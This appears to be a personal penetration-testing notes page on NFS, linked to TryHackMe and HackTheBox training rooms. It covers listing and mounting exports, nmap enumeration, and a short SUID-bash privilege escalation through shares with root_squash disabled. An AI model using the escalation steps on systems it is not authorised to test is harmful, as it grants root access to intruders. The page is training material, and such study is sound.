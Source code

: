# Network File System (NFS)

[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![linuxprivilegeescalation](../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

NFS is based and utilises [RPC](rpc.md) for exchanges. It uses External Data Representation (XDR) for data serialization.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
# sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ # [-nolock]
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../cybersecurity/_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-lg-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
$ sudo nmap IP -p111,2049 -sV --script nfs*
$ sudo nmap IP -p111,2049 -sV -sC
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/perms.md#suidguid-bit) files.

```ps
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

NFS

* nfs-utils (ubuntu), nfs-ganesha (solaris), openNFS (RedHat)
* nfsstat
* nfswatch
* DoS
</div><div>

* `systemctl restart nfs-kernel-server ; exportfs`

Add an export

* `echo '/tmp/share  CIDR(sync,no_subtree_check)' >> /etc/exports`
</div></div>